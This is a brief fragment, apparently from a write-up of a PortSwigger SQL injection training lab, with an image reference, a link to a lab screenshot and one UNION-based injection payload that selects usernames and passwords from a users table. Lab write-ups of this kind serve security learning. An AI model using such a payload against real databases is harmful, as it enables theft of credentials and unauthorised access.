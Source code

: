 'UNION+SELECT+username,password+from+users-- 
https://github.com/Harbeer-Singh/Portswigger-Labs/blob/main/SQL%20INJECTION/LAB-9/images/1.png
